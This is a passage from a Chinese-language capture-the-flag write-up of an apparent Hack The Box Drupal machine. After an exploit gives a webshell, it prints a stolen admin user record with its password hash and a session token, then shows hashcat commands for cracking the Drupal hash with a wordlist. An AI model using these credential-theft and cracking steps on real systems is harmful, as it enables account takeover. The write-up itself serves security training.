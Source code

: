 利用了41564.php，除了得到了 webshell，还得到了两个文件

```bash
└─# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1693467506",
    "login": 1693467812,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}                                               
```

```bash
└─# cat session.json 
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "pBAAPOKMIkqqfvXnyUfq8Gy5e9-SUnLX54zp1qr2ESc",
    "token": "KENMcfpxfJIt0_pyN1w2K_6KGiEkSriUFXxyXlbxZMI"
}     
```

可以尝试爆破 pass 的 hash `$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE`

```
└─# hash-identifier $S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE
└─# hashcat --help | grep Drupal                                                                                                                             1 ⨯
   7900 | Drupal7                                                    | Forums, CMS, E-Commerce
└─# hashcat -m 7900 hash.list /usr/share/wordlists/rockyou.txt 
```
